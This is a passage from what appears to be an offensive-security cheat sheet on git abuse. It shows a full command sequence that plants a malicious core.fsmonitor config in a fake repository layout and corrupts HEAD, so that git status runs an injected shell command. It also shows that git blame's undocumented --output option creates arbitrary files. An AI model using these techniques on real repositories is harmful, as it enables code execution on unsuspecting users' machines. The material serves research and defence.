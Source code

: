 ```bash
$ git clone https://github.com/remote/repo.git
$ cd repo
# Create empty folders to comply with the expected structure of a Git repository
$ mkdir objects refs worktree
# Create non-empty HEAD to fake a valid reference
$ echo "ref: refs/heads/main" > HEAD
# Prepare a malicious the config file using core.fsmonitor to execute the payload
$ echo "[core]" > config
$ echo "\trepositoryformatversion = 0" >> config
$ echo "\tbare = false" >> config
$ echo "\tworktree = worktree" >> config
$ echo $'\tfsmonitor = "echo \\"Pwned as $(id)\\">&2; false"' >> config
# Corrupt the HEAD file
$ echo "" > .git/HEAD
# Exploit
$ git status
Pwned as uid=501(0xn3va)
Pwned as uid=501(0xn3va)
On branch main

No commits yet

nothing to commit (create/copy files and use "git add" to track)
```

References:

- [Sonar Blog: Empowering weak primitives: file truncation to code execution with Git](https://www.sonarsource.com/blog/empowering-weak-primitives-file-truncation-to-code-execution-with-git)

## git-blame

{% embed url="https://git-scm.com/docs/git-blame" %}

### --output

`git-blame` has the `--output` option, which is not documented in the manual and is usually present on other git sub-commands. Executing `git blame --output=foo` results in interesting behaviour:

```bash
$ git init
$ git blame --output=foo
usage: git blame [<options>] [<rev-opts>] [<rev>] [--] <file>

    <rev-opts> are documented in git-rev-list(1)

    --incremental         show blame entries as we find them, incrementally
    -b                    do not show object names of boundary commits (Default: off)
# ...

# Notice the presence of a new file named foo
$ ls -la foo
-rw-r--r--    1 0xn3va  staff     0 Mar 18 20:18 foo
```
